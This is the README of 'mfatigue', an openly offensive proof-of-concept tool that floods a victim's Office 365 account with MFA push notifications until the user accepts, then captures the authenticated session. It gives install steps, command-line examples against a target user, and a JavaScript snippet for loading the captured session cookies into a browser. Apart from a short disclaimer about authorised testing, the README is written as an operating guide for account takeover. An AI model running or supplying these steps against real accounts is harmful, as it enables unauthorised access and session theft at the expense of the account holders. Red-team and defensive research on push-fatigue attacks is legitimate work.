

# mfatigue
A proof-of-concept Python script to cause MFA fatigue for known O365 credentials.

> This project is intended strictly for educational, authorised testing, and security research purposes only. 

> The author does not assume any responsibility for the use of this project. 

> By using this project, you agree to use it at your own risk and acknowledge that the author is not liable for any misuse, damage, or legal consequences that may arise from its use.

# Index

- [Introduction](#introduction)
  - [Features](#features)
  - [Limitations](#limitations)
- [Setup](#setup)
  - [Additional Setup Notes](#additional-setup-notes)
- [Usage](#usage)
  - [Quick Start](#quick-start)
  - [Usage Notes](#usage-notes)
  - [CLI Help](#cli-help)
- [To Do](#to-do)

# Introduction

mfatigue is tool that attempts MFA fatigue on known O365 credentials.

Once a valid O365 username and password is provided, mfatigue will authenticate with those credentials and keep sending MFA push notifications until either the user accepts it, or it hits a limit you specify.

If the user does accept a push, mfatigue will give you a browser window with the fully authenticated O365 session. Additionally, it dumps the session cookies in a format that can be imported easily in browser.

## Features

Current development can handle the following authentication types:
* Azure Active Directory (Azure AD) authentication.
* Active Directory Federation Services (AD FS) redirected authentication.
* Okta redirected authentication.

## Limitations

* Works only with MFA push notifications.
* Will not work if MFA uses code/number entry etc.


# Setup

```sh
# First, upgrade your pip version to latest (optional)
python3 -m pip install --upgrade pip

# Create a folder for python3 virtual environments, if you don't  have one already
mkdir ~/my-python-venvs

# Change to your venv folder
cd ~/my-python-venvs

# Create a new python3 virtual-env for mfatigue tool
python3 -m venv mfatique_venv
source ./mfatique_venv/bin/activate

# Change over to where you want to download the tool e.g.
cd ~/tools

# Download mfatigue
git clone https://github.com/siloed/mfatigue.git
cd ./mfatigue/

# install the pip requirements for the tool
python3 -m pip install -r requirements.txt

# make ./geckodriver executable
chmod +x ./geckodriver

# confirm geckodriver version
geckodriver --version
# should get: geckodriver 0.32.2 (602aa16c20d4 2023-02-08 00:09 +0000)

# now you can run the tool to confirm installation
python3 ./mfatigue.py 
```

## Additional Setup Notes

* The tested geckodriver version 0.32.2 (2023-02-08, 602aa16c20d4), has been included for compatibility.
* If you need, you can directly download and use the above version from https://github.com/mozilla/geckodriver/releases
* Other versions of geckodriver may or may not be compatible. They have not been tested and won't be supported.


# Usage

## Quick Start
<h2 align="center">
  
  <br>
</h2>

**Example #1 : Basic usage with a known O365 username and password:** <br />
-- The following will attempt 3 x MFA push notifications (default), each with a 55 second (default) wait for user acceptance.
```sh
python3 ./mfatigue.py -u targetuser@randomtestdomain.com -p "P@ssword123"
```

**Example #2 : Alternatively, for a complex password, you can provide it as an input file (--single-pass-file):** <br />
-- Same as example #1 above, with the password read from the first line of the given text file.
```sh
python3 ./mfatigue.py -u targetuser@randomtestdomain.com -spf ./password.txt
```

**Example #3 : When required, you can specify additional parameters such as max mfa attempts and mfa wait period:** <br />
-- In the example below we are attemping 10 x MFA push notificatons, each with a 30 second wait for user acceptance.
```sh
python3 ./mfatigue.py -u targetuser@randomtestdomain.com -spf ./password.txt -max-mfa 10 --max-mfa-wait 30
```

## Usage Notes
Once an authenticated user session is captured, the script will ask whether you want to keep the authenticated browser session open. <br /> <br />
Alternatively, the captured session cookies will be written to `.\captured_mfa_authed_sesisons.txt`. An example is shown on the screenshot below:
<h2 align="center">
  
  <br>
</h2>

Now you can import the captured session cookies to your browser by using the following JavaScript:
```js
var obj = JSON.parse('PASTE_JSON_BLOB_FROM_CAPTURED_SESSION');
for (let i = 0; i < obj.length; i++) { document.cookie= obj[i].name+"="+obj[i].value+"; expires=Wed, 05 Aug 2040 23:00:00 UTC; path=/"; }
```

## CLI Help
```
mfatigue Usage:
  python3 ./mfatigue.py -u USERNAME [-p PASSWORD] [-spf SINGLE_PASS_FILE] [--max-mfa MAX_MFA] [--max-mfa-wait MAX_MFA_WAIT]

Help:
  python3 ./mfatigue.py --help
  
Options:
  -h, --help                                                    show this help message and exit
  -u USERNAME, --username USERNAME                              Username
  -p PASSWORD, --password PASSWORD                              Password
  -spf SINGLE_PASS_FILE, --single-pass-file SINGLE_PASS_FILE    Single password textfile. Password should be in the first line.
  --max-mfa MAX_MFA                                             Max MFA pushes (Default: 3)
  --max-mfa-wait MAX_MFA_WAIT                                   Max wait period for an MFA push accept before sending another. (Default: 55 seconds)
```

# To Do
* Explore extending support for any VPNs with push notifications.
* Explore support for other popular authentication portals with push notifications.
* Requests and suggestions to improve welcome.
